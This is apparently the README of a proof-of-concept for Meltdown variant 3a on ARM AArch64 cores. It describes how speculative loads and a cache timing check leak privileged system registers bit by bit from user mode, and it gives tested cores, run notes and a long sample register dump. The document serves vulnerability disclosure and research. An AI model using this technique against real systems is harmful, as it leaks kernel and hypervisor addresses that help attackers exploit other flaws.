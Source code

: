 PoC code implementing variant 3a of the Meltdown attack for AArch64. This allows reading all (potentially excluding registers whose read has side effects - not verified) system registers from user mode, including those which should only be accessible from the EL1 (kernel), EL2 (hypervisor) and EL3 (secure monitor) modes.


The first 5 LDR instructions are setup so that the last in the sequence raises a NULL pointer dereference exception when it retires. The zrbuf  buffer (x1) is setup for the purpose of raising the exception.
The next 5 instructions are those which are run speculatively by the CPU. These instructions are not retired because an exception 'happens before' in the program order. Nevertheless, their speculative execution loads a cacheline of one of the two pages of the probe buffer (x0) into the DCache, depending on the speculatively read bit (x2) of a privileged register. The custom exception hanlder (get_value) checks which of the two pages are represented in the DCache, and accordingly determines the bit to be 0 or 1. Bit by bit, all 64 bits of the privileged register are extracted.




See the [ARM whitepaper](https://developer.arm.com/support/security-update) and the [Meltdown vulnerability](https://spectreattack.com/).

Confirmed to be working on Cortex-A57 and Cortex-A72.


Impact
------

Infoleaks of potentially sensitive data from the OS, hypervisor or secure monitor. No cryptographic keys or user data are expected to be exposed in most cases. So far, I've identified 3 potentially interesting uses for this:

1) confirming the presence of a hypervisor and/or secure monitor on the machine
2) detecting the use of hardware debugging or profiling tools
3) obtaining valid addresses of software running in EL1-EL3 (from the registers containing pointers to the page tables, the exception vector, etc) - potentially useful in developing or deploying exploits for other vulnerabilities in this software


Affected implementations
------------------------

Only showing AArch64 implementations.

| Core             | Vulnerable according to vendor                           | Tested with this exploit |
|------------------|----------------------------------------------------------|--------------------------|
| ARM Cortex-A35   | [no](https://developer.arm.com/support/security-update)  | no                       |
| ARM Cortex-A53   | [no](https://developer.arm.com/support/security-update)  | yes, not vulnerable      |
| ARM Cortex-A57   | [yes](https://developer.arm.com/support/security-update) | yes, vulnerable          |
| ARM Cortex-A72   | [yes](https://developer.arm.com/support/security-update) | yes, vulnerable          |
| ARM Cortex-A73   | [no](https://developer.arm.com/support/security-update)  | no                       |
| ARM Cortex-A75   | [no](https://developer.arm.com/support/security-update)  | no                       |
| APM X-Gene 2     | N/A                                                      | yes, not vulnerable      |
| Cavium ThunderX2 | no                                                       | yes, not vulnerable      |
| Qualcomm Kryo (Snapdragon 820) | N/A                                        | yes, not vulnerable      |

Please open a pull request if you've tested on any other implementations.


Running it
----------

The access timing is done using a second thread which increments a counter, which means that at least 2 cores need to be online and (close to) idle. DVFS might have to be disabled. In a big.LITTLE system, pin this process to the big cores. Cortex-A57 and Cortex-A72 are the only AArch64-capable cores designed by ARM which are vulnerable (to this variant of Meltdown). Note that bit-level errors are possible, although they should be rare.


Sample output
-------------

The registers marked *dynamic* denote the registers which do not appear to have a constant value during the sampling process. In the sample below, these are the *Generic Timer* registers (CNT\*) and the *Interrupt Status Register* (ISR_EL1).

```
$ ./dump_sys_regs
ACTLR_EL1           : 0x0 
ACTLR_EL2           : 0x73 
ACTLR_EL3           : 0x73 
AIDR_EL1            : 0x0 
AFSR0_EL1           : 0x0 
AFSR0_EL2           : 0x0 
AFSR0_EL3           : 0x0 
AFSR1_EL1           : 0x0 
AFSR1_EL2           : 0x0 
AFSR1_EL3           : 0x0 
AMAIR_EL1           : 0x0 
AMAIR_EL2           : 0x0 
AMAIR_EL3           : 0x0 
CCSIDR_EL1          : 0x70ffe07a 
CLIDR_EL1           : 0xa200023 
CPACR_EL1           : 0x300000 
CPTR_EL2            : 0x33ff 
CPTR_EL3            : 0x0 
CSSELR_EL1          : 0x2 
CTR_EL0             : 0x8444c004 
DISR_EL1            : 0x0 
ERRIDR_EL1          : 0x0 
ERRSELR_EL1         : 0x0 
ERXADDR_EL1         : 0x0 
ERXCTLR_EL1         : 0x0 
ERXFR_EL1           : 0x0 
ERXMISC0_EL1        : 0x0 
ERXMISC1_EL1        : 0x0 
ERXSTATUS_EL1       : 0x0 
ESR_EL1             : 0x56000000 
ESR_EL2             : 0x0 
ESR_EL3             : 0x5e000000 
HACR_EL2            : 0x0 
HCR_EL2             : 0x80000000 
ID_AFR0_EL1         : 0x0 
ID_DFR0_EL1         : 0x3010066 
ID_ISAR0_EL1        : 0x2101110 
ID_ISAR1_EL1        : 0x13112111 
ID_ISAR2_EL1        : 0x21232042 
ID_ISAR3_EL1        : 0x1112131 
ID_ISAR4_EL1        : 0x11142 
ID_ISAR5_EL1        : 0x11121 
ID_ISAR6_EL1        : 0x0 
ID_MMFR0_EL1        : 0x10201105 
ID_MMFR1_EL1        : 0x40000000 
ID_MMFR2_EL1        : 0x1260000 
ID_MMFR3_EL1        : 0x2102211 
ID_MMFR4_EL1        : 0x0 
ID_PFR0_EL1         : 0x131 
ID_PFR1_EL1         : 0x11011 
ID_AA64DFR0_EL1     : 0x10305106 
ID_AA64ISAR0_EL1    : 0x11120 
ID_AA64ISAR1_EL1    : 0x0 
ID_AA64MMFR0_EL1    : 0x1124 
ID_AA64MMFR1_EL1    : 0x0 
ID_AA64MMFR2_EL1    : 0x0 
ID_AA64PFR0_EL1     : 0x2222 
IFSR32_EL2          : 0x0 
LORC_EL1            : 0x0 
LORID_EL1           : 0x0 
LORN_EL1            : 0x0 
MDCR_EL3            : 0x0 
MIDR_EL1            : 0x411fd073 
MPIDR_EL1           : 0x80000103 
PAR_EL1             : 0x7f99305000 
RVBAR_EL3           : 0xf6000000 
REVIDR_EL1          : 0x0 
SCTLR_EL1           : 0x34d5d91d 
SCTLR_EL3           : 0xcd183f 
TCR_EL1             : 0x34b5193519 
TCR_EL2             : 0x80800000 
TCR_EL3             : 0x8080351d 
TTBR0_EL1           : 0xf89f0000d4454000 
TTBR0_EL2           : 0x0 
TTBR0_EL3           : 0x30010b00 
TTBR1_EL1           : 0x8133f000 
TTBR1_EL2           : 0x0 
VDISR_EL2           : 0x0 
VSESR_EL2           : 0x0 
VTCR_EL2            : 0x80000000 
VTTBR_EL2           : 0x0 
AFSR0_EL12          : 0x0 
AFSR1_EL12          : 0x0 
AMAIR_EL12          : 0x0 
CNTFRQ_EL0          : 0x1dcd650 
CNTHCTL_EL2         : 0x3 
CNTHP_CTL_EL2       : 0x0 
CNTHP_CVAL_EL2      : 0x0 
CNTHP_TVAL_EL2      : 0x65a29ee7 (dynamic?)
CNTHV_CTL_EL2       : 0x0 
CNTHV_CVAL_EL2      : 0x0 
CNTHV_TVAL_EL2      : 0x0 
CNTKCTL_EL1         : 0xc6 
CNTKCTL_EL12        : 0x0 
CNTP_CTL_EL0        : 0x0 
CNTP_CTL_EL02       : 0x0 
CNTP_CVAL_EL0       : 0x12878de2 
CNTP_CVAL_EL02      : 0x0 
CNTP_TVAL_EL0       : 0x7801a980 (dynamic?)
CNTP_TVAL_EL02      : 0x0 
CNTPCT_EL0          : 0x162db9aa576c0 (dynamic?)
CNTPS_CTL_EL1       : 0x0 
CNTPS_CVAL_EL1      : 0x0 
CNTPS_TVAL_EL1      : 0x6539bd20 (dynamic?)
CNTV_CTL_EL0        : 0x0 
CNTV_CTL_EL02       : 0x0 
CNTV_CVAL_EL0       : 0x0 
CNTV_CVAL_EL02      : 0x0 
CNTV_TVAL_EL0       : 0x6516d1c0 (dynamic?)
CNTV_TVAL_EL02      : 0x0 
CNTVCT_EL0          : 0x162db9b090480 (dynamic?)
CNTVOFF_EL2         : 0x0 
CONTEXTIDR_EL1      : 0x0 
CONTEXTIDR_EL12     : 0x0 
CONTEXTIDR_EL2      : 0x0 
CPACR_EL12          : 0x0 
CPTR_EL3            : 0x0 
DACR32_EL2          : 0x0 
ESR_EL12            : 0x0 
FAR_EL1             : 0x0 
FAR_EL12            : 0x0 
FAR_EL2             : 0x0 
FAR_EL3             : 0x0 
FPEXC32_EL2         : 0x7f99305000 
HPFAR_EL2           : 0x0 
HSTR_EL2            : 0x0 
ID_AA64AFR0_EL1     : 0x0 
ID_AA64AFR1_EL1     : 0x0 
ID_AA64DFR1_EL1     : 0x0 
ID_AA64PFR1_EL1     : 0x0 
ISR_EL1             : 0x0 (dynamic?)
LOREA_EL1           : 0x0 
LORSA_EL1           : 0x0 
MAIR_EL1            : 0xbbff440c0400 
MAIR_EL12           : 0x0 
MAIR_EL2            : 0x0 
MAIR_EL3            : 0x4404ff 
MDCR_EL2            : 0x6 
MVFR0_EL1           : 0x10110222 
MVFR1_EL1           : 0x12111111 
MVFR2_EL1           : 0x43 
RMR_EL3             : 0x1 
SCR_EL3             : 0x535 
SCTLR_EL12          : 0x0 
SCTLR_EL2           : 0x30c50830 
SDER32_EL3          : 0x0 
TCR_EL12            : 0x0 
TPIDR_EL0           : 0x7f993066f0 
TPIDR_EL1           : 0x1fed81000 
TPIDR_EL2           : 0x0 
TPIDR_EL3           : 0x30010f80 
TPIDRRO_EL0         : 0x0 
TTBR0_EL12          : 0x0 
TTBR1_EL12          : 0x0 
VBAR_EL1            : 0xffffffc000083800 
VBAR_EL12           : 0x0 
VBAR_EL2            : 0x8008a000 
VBAR_EL3            : 0x3000a800 
VMPIDR_EL2          : 0x80000103 
VPIDR_EL2           : 0x411fd073
```
